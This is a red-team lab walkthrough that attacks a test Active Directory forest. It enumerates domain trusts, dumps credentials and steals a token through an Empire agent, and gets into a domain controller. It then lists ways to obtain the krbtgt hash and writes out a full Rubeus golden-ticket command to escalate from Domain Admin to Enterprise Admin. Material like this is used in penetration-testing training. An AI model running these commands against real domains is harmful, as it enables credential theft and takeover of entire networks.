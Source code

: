 Trusts between the two domains could be checked from powershell by issuing:

```
Get-ADTrust -Filter *
```

The first console shows the domain trust relationship from `offense.local` perspective and the second one from `red.offense.local`. Note the the direction is `BiDirectional` which means that members can authenticate from one domain to another when they want to access shared resources:
![[Pasted image 20240917081626.png]]
Similar, but very simplified information could be gleaned from a native Windows binary:

```
nltest /domain_trusts
```


Assume we got our first agent back from the computer `PC-MANTVYDAS$`:

Credential Dumping

Since the agent is running within a high integrity process, let's dump credentials - some interesting credentials can be observed for a user in `red.offense.local` domain:
![[Pasted image 20240917082037.png]]

We succesfully change to that user stealing the token

## DC Recon

After assuming privileges of the member red\spotless, let's get the Domain Controller computer name for that user. Again, my Empire instance is buggy, so I used a custom command to get it:
```
run [DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | ForEach-Object { $_.Name }
```
![[image.png]]
Check access
```
dir \\dc-red.red.offense.local\c$
```
![[image 1.png]]

Jump to DC
Once in DC-RED, let's check any domain trust relationships:
```
Get-ADTrust -Filter *
```
![[Pasted image 20240917082800.png]]
## From DA to EA

We will now try to escalate from DA in `red.offense.local` to EA in `offense.local`. We need to create a golden ticket for `red.offense.local` and forge it to make us an EA in `offense.local`.
The NTLM hash and SID of the **krbtgt** account can be obtained via the following methods: 

1. DCSync (Mimikatz)
2. LSA (Mimikatz)
3. Hashdump (Meterpreter)
4. NTDS.DIT
5. DCSync (Kiwi)

Forge the ticket
`rubeus.exe golden /user:<any_username> /domain:<domain_name> /sid<domain_sid> /rc4:<krbtgt_ntlm_hash> /ptt`
example:
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:3797db48777612dbaf6e5d6436a22739a1efc74c791d0898379eb5ea2d788e26 /user:Administrator /domain:acme.corp /sid:S-1-5-21-951568539-2129440919-2691824384 /nowrap
```
